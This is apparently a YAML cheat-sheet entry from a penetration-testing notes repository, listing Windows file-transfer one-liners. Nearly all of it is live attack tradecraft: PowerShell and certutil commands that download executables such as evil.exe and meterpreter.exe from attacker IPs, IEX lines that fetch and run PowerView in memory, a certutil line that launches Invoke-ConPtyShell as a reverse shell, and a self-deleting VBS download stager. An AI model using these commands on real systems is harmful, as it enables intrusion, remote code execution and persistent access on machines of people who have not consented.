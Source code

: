 ```yaml
---
functions:
  file-transfer:
    - description: Download Files on Windows
      code: |
        +++++++++++POWERSHELL+++++++++++

        powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadFile('https://192.168.1.1:56789/svchosts.exe','svchosts.exe')"

        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        Invoke-Webrequest -Uri http://192.168.1.1:8080/sysupdate.exe -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
    
        Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    
        (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        +++++++++++CERTUTIL+++++++++++

        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        +++++++++++PS BITSADMIN+++++++++++

        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        +++++++++++BITSADMIN+++++++++++        

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        +++++++++++VBS+++++++++++

        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        +++++++++++IE+++++++++++

        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

